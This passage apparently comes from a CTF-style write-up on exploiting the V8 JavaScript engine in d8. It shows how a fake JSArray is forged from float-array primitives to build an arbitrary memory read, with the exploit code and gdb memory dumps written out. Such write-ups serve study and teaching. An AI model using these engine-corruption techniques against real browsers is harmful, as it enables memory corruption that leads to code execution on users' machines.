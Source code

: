 #### arbread

With these two primitives, I can now create an arbitrary read function, arbread. I’ll start by creating another floats array, but this time, the first element will be the float array map (and properties). I can look at the memory involved here (I’ve labeled the memory in that last dump):

```

d8> var arr2 = [itof(float_array_map),1.1, 2.2, 3.3];
undefined
d8> %DebugPrint(arr2)
0x08750808692d <JSArray[4]>
[4.73859563718219e-270, 1.1, 2.2, 3.3]
d8> ^C
Thread 1 "d8" received signal SIGINT, Interrupt.
__GI___libc_read (nbytes=0x400, buf=0x55be0d8e3eb0, fd=0x0) at ../sysdeps/unix/sysv/linux/read.c:26
26      ../sysdeps/unix/sysv/linux/read.c: No such file or directory.
gef➤  x/16xw 0x08750808692d-1-0x30
0x875080868fc:  0x00000000      0xfffffffe      0x08040a3d      0x00000008 <-- ?, ?, FixedArray map, len
0x8750808690c:  0x08241909      0x080406e9      0x9999999a      0x3ff19999 <-- [0] == map + props, [1] == 1.1
0x8750808691c:  0x9999999a      0x40019999      0x66666666      0x400a6666 <-- [2] == 2.2, [3] == 3.3
0x8750808692c:  0x08241909      0x080406e9      0x08086905      0x00000008 <-- JSArray map, prop, elements, length

```

Next, I’ll create a fake object located at `addrof(arr2) - 0x20`. This lines up with the 0 element, which I’ve already started setting up to contain a map and properties. I’ll set the 1 element to be eight bytes before the address I want to read, and the length to 1 (so 2):

```

d8> arr2[1] = itof((2n<<32n) + 0x808694dn - 8n)
4.3105762977e-314
d8> ^C
Thread 1 "d8" received signal SIGINT, Interrupt.
__GI___libc_read (nbytes=0x400, buf=0x55be0d8e3eb0, fd=0x0) at ../sysdeps/unix/sysv/linux/read.c:26
26      in ../sysdeps/unix/sysv/linux/read.c
gef➤  x/16xw 0x08750808692d-1-0x30
0x875080868fc:  0x00000000      0xfffffffe      0x08040a3d      0x00000008
0x8750808690c:  0x08241909      0x080406e9      0x08086945      0x00000002 <-- fake map, props, elements, len
0x8750808691c:  0x9999999a      0x40019999      0x66666666      0x400a6666
0x8750808692c:  0x08241909      0x080406e9      0x08086905      0x00000008

```

Now if I read `fake[0]`, it will return the double located at 0x808694d (minus 1 for pointers):

```

d8> ftoi(fake[0]).toString(16)
"208040975"
d8> ^C
Thread 1 "d8" received signal SIGINT, Interrupt.
__GI___libc_read (nbytes=0x400, buf=0x55be0d8e3eb0, fd=0x0) at ../sysdeps/unix/sysv/linux/read.c:26
26      in ../sysdeps/unix/sysv/linux/read.c
gef➤  x/xg 0x8750808694c
0x8750808694c:  0x0000000208040975

```
